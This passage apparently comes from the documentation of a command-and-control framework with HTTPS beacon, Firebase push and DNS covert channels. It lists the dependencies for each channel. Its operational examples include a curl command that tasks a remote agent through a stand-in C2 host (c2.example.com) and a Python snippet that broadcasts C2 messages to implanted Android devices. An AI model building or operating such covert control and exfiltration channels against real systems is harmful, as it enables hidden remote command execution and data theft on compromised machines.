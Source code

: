 ### Scalability & Performance
1. **Priority-Based Queuing**: Four-tier task priority system with automatic expiration
2. **Data Compression**: Automatic compression for DNS and FCM channels
3. **Chunked Transfer**: Efficient handling of large payloads
4. **Connection Pooling**: Optimized HTTP connection management
5. **Resource Management**: Proper cleanup and resource disposal

## Dependencies & Requirements

### HTTPS Beacon Profile
```
aiohttp==3.9.1
aiohttp-cors==0.7.0
cryptography>=41.0.0
ssl-utils>=0.3.0
```

### FCM Push Profile
```
firebase-admin>=6.2.0
aiohttp>=3.8.0
pyjnius>=1.4.0  # For Android Java bindings
plyer>=2.1      # Cross-platform Android APIs
```

### DNS Covert Channel
```
dnspython>=2.4.0
aiohttp>=3.8.0
cryptography>=41.0.0
```

## Operational Usage Examples

### HTTPS Beacon - Task Creation
```bash
curl -X POST https://c2.example.com/admin/task \
  -H "Content-Type: application/json" \
  -d '{
    "command": "execute",
    "payload": {"cmd": "whoami"},
    "priority": "HIGH",
    "agent_id": "specific_agent"
  }'
```

### FCM Push - Message Broadcasting
```python
message = C2Message(
    message_id=str(uuid.uuid4()),
    command="system_info",
    payload={},
    priority=MessagePriority.NORMAL,
    channel_type=ChannelType.FCM_PUSH,
    timestamp=time.time()
)
await fcm_handler.send_multicast_message(message, tokens)
```
